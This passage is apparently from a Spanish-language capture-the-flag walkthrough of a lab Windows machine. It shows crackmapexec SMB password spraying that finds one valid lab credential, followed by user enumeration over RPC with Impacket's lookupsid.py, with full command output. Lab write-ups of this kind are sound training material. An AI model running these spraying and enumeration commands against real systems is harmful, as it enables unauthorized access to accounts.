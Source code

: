 ```bash
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE
```

Como podemos ver una credencial es válida pero no podemos hacer nada mas que listar los recursos compartidos que hay en la maquina a través de smb, no nos podemos conectar a ellos ya lo voy adelantando y tampoco podemos usar dichas credenciales para poder conectarnos a través de `Winrm`.

--------------
# ENUMERACION DE USUARIOS A TRAVES DE RPC

En este punto lo que podemos hacer como si que nos podemos conectar a través de `rpcclient` al servicio `msrpc` es enumerar los usuarios existentes. Tenemos dos formas de hacerlo debido a que esta capado a nivel de permisos algunos comandos como el `enumdomusers`:

- Enumerar usuarios de la maquina con la herramienta `lookupsid.py` de la suite de `Impacket`:
```bash
lookupsid.py SUPPORTDESK/Hazard:stealth1agent@10.10.10.149
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
